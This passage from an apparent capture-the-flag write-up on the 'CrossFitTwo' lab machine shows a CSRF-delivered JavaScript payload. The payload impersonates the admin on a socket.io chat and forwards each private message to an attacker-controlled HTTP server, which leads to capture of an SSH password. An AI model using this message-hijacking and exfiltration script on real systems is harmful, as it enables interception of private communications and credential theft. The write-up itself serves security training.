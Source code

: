 ![](/assets/img/posts/crossFitTwo/socket-private-recv.png)

If we hook `private_recv` listener of admin account to our server, we can read admin messages.

Using the same [CSRF account registration](#csrf-account-registration) technique to trick admin to execute a javascript that executes from admin browser and hook `private_recv` to our http server and intercept all traffic that come through `private_recv` listener.

*[from ippsec video](https://www.youtube.com/watch?v=OUjdPa11tGw&t=4770s)*
```php
<html>
<script src="http://crossfit-club.htb/socket.io/socket.io.js"></script>
<script>
var socket = io.connect('http://crossfit-club.htb');
socket.emit("user_join", { username : "admin" });

socket.on("private_recv", function(msg) {
	var req = new XMLHttpRequest();
	req.open("GET", "http://10.10.15.71/?" + btoa(JSON.stringify(msg)));
	req.send();
});
</script>
</html>
```

after some time, receive message with user "David" ssh password

![](/assets/img/posts/crossFitTwo/ssh-password.png)
